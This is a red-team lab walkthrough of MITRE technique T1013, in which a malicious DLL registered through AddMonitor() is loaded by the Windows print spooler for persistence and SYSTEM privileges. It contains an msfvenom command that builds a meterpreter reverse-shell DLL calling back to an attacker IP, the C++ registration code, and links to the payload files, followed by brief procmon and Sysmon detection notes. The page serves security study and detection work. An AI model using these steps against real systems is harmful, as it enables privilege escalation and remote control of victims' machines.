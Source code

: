 ```yaml
---
description: 'Persistence, Privilege Escalation'
---
```


# T1013: AddMonitor\(\)

## Execution

Generating a 64-bit meterpreter payload to be injected into the spoolsv.exe as part of the technique - see bottom of the page for more info about the technique's high-lever overview:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```text
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil64.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Writing and compiling a simple C++ code that will register the monitor port:

{% code-tabs %}
{% code-tabs-item title="monitor.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"

int main() {	
	MONITOR_INFO_2 monitorInfo;
	TCHAR env[12] = TEXT("Windows x64");
	TCHAR name[12] = TEXT("evilMonitor");
	TCHAR dll[12] = TEXT("evil64.dll");
	monitorInfo.pName = name;
	monitorInfo.pEnvironment = env;
	monitorInfo.pDLLName = dll;
	AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
	return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% file src="../.gitbook/assets/t1013-portmonitor64.exe" caption="PortMonitor64" %}

{% file src="../.gitbook/assets/evil64.dll" caption="evil64.dll - meterpreter payload" %}

Move evil64.dll to `%systemroot%` and execute the compiled `monitor.cpp`.

## Observations

Upon launching the compiled executable and inspecting the victim machine with procmon, we can see that the evil64.dll is being accessed:

![](../.gitbook/assets/monitor-loaddll.png)

![](../.gitbook/assets/monitor-loaddll2.png)

which spawns a rundll32 process \(meterpreter payload\) which initiates a connection back to the attacker:

![](../.gitbook/assets/rundll-connect.png)

The attacker receives a reverse meterpreter session as **SYSTEM**:

![](../.gitbook/assets/monitor-shell-system.png)

The below shows confirms the procmon results explained above:

![](../.gitbook/assets/monitor-spoolsvc-rundll.png)

Sysmon commandline arguments and network connection logging to the rescue:

![](../.gitbook/assets/monitor-sysmon.png)

{% embed url="https://attack.mitre.org/wiki/Technique/T1013" %}

{% embed url="https://www.youtube.com/watch?v=dq2Hv7J9fvk" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/dd183341\(v=vs.85\).aspx" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/dd145068\(v=vs.85\).aspx" %}



